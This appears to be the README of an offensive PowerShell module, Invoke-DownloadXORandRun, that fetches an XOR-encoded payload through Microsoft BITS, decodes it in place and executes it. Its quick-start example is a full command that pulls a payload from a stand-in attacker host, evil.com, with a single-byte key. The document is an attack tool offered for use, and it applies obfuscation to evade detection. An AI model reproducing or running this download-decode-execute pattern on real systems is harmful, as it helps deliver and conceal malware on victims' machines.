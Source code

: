 # Invoke-DownloadXORandRun
This module downloads an XOR encoded payload via Microsoft BITS, decodes and runs it.

## Quick Start Guide
There are currently two parameters: 


**pURL** 
The remote path of the single-byte encoded file

**XOREncodeKey **
The value of the XOR Encoding

```PowerShell
Invoke-DownloadXORandRun -pURL http://evil.com/6aenc.out -XorEncodeKey 6A
```

